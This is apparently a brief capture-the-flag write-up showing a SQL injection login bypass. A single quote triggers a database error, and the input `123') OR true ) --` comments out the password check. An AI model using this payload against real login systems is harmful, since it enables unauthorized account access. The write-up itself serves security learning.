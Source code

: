 If you type a single quote in a username input you'll see an error:
<pre>
ERROR: syntax error at or near "cfde22c06265527e13450c88a8d14c75a42e49f5" LINE 1: ...ers WHERE (username = ('123'') AND password = ('cfde22c062... ^
</pre>
Solution:
<pre>
login input: 123') OR true ) --
</pre>
'--' adds a comment, so the password validation doesn't work<br>
GL